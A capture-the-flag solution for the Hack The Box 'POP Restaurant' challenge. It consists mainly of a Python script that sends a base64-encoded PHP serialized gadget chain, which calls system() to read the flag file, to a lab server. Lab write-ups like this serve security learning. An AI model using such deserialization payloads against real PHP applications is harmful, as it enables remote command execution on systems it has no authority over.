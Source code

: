 ### https://app.hackthebox.com/challenges/POP%2520Restaurant

```bash
python3 exploit.py
```
```bash
import re
import requests

url = "http://94.237.123.87:39567/order.php"

headers = {
    "Cookie": "PHPSESSID=df0b22519244ec847030ef5cebab356c"
}

data = {
    "data": "Tzo1OiJQaXp6YSI6Mzp7czo1OiJwcmljZSI7TjtzOjY6ImNoZWVzZSI7TjtzOjQ6InNpemUiO086OToiU3BhZ2hldHRpIjozOntzOjU6InNhdWNlIjtPOjg6IkljZUNyZWFtIjoyOntzOjc6ImZsYXZvcnMiO086MjE6IlxIZWxwZXJzXEFycmF5SGVscGVycyI6NDp7aTowO2k6MDtpOjE7YToxOntpOjA7czoyNjoiY2F0IC9wQmhmTUJRbHU5dVRfZmxhZy50eHQiO31pOjI7YToxOntzOjg6ImNhbGxiYWNrIjtzOjY6InN5c3RlbSI7fWk6MztOO31zOjc6InRvcHBpbmciO047fXM6Nzoibm9vZGxlcyI7TjtzOjc6InBvcnRpb24iO047fX0K"
}

response = requests.post(url, headers=headers, data=data, allow_redirects=False)
match = re.findall(r"HTB\{.*?\}", response.text)
if response.status_code == 302:
    if match:
        print(f"[+] FLAG FOUND: {match}")
    else:
        print(response.text)
        print("[-] No HTB flag found in response.")
else:
    print("[-] Request failed, check the URL or session.")
```



### Reference
https://vickieli.dev/insecure%20deserialization/exploiting-php-deserialization/
https://owasp.org/www-community/vulnerabilities/PHP_Object_Injection


